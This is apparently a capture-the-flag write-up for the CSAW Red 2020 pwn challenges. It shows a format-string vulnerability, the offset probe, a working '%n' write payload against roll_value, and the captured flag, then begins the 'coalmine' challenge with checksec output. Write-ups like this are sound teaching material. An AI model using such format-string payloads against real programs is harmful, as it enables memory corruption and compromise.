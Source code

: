 There is a format-string vulnerability in the middle of `runChallenge()`, as it feeds our input directly into `printf()`

```c
getInput(PHRASELENGTH, phrase);
puts("");
printf("   \"AWK! ");
printf(phrase);
```

We start by finding the offset in our format string until we hit our input. After some trial and error, we find that we hit our input starting at offset 6.

```
What do you say? >AAAAAAAA %6$p

"AWK! AAAAAAAA 0x4141414141414141," says the parrot.
```

We want to write to `roll_value`, which has an 8-byte address (since we're in 64-bit). This means we have just 20-8=12 bytes to write the value there. The winning payload is:

```
'%20c%7$n' + p64(roll_value)
```

Since index 6 is the start of our format string, index 7 is 8 bytes after that, the address of `roll_value`. We print 20 bytes of padding, then write it with the `n` specifier.

## Flag
```
flag{Y0u_s41d_th3_wr1t3_th1ng}
```

# pwn - coalmine
> This bird will definitely protect me down in the mine.
>
> `nc pwn.red.csaw.io 5005`

## Files
- coalmine

## Solution
```
$ checksec coalmine
[*] '/home/darin/ctfs/red-2020/coalmine/coalmine'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
